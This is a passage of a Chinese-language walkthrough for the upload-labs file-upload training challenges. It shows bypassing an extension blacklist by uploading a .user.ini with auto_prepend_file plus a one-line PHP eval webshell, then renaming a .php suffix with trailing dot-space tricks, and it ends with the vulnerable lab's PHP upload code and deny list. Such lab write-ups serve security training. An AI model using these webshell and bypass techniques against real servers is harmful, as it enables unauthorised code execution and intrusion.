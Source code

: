 
与第四关相比黑名单更全面，且``.htaccess``也被限制了，其余一致。

查看提示：

[![rvPBd0.png](https://s3.ax1x.com/2020/12/31/rvPBd0.png)](https://imgchr.com/i/rvPBd0)

利用``.user.ini``文件

上传一个``.user.ini``文件：

```
auto_prepend_file=1.png
```

所有的php文件都自动包含``1.png``文件。``.user.ini``相当于一个用户自定义的``php.ini``。

再上传一个``1.png``文件(原来的一句话木马)

```
<?php @eval($_POST['hhh']); ?>
```

上传完后，用蚁剑连接，根据提示将``1.php``文件名改为：``readme.php``

[![rvPOOA.md.png](https://s3.ax1x.com/2020/12/31/rvPOOA.md.png)](https://imgchr.com/i/rvPOOA)

**注：**需要更高版本的php才能成功连接：例：php-7.0.12-nts + Apache。

**方法二：**后缀名特殊字符重写绕过。

上传``.php``文件，用burp抓包修改文件后缀，在后方加上点空格点：

[![rxnvy6.md.png](https://s3.ax1x.com/2021/01/01/rxnvy6.md.png)](https://imgchr.com/i/rxnvy6)

因为Windows特性，在创建文件的时候，末尾的点会被去掉，剩下的就为``.php``了。

用蚁剑连接成功：

[![rxuASI.md.png](https://s3.ax1x.com/2021/01/01/rxuASI.md.png)](https://imgchr.com/i/rxuASI)

#### pass-06(大小写绕过)

```
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
```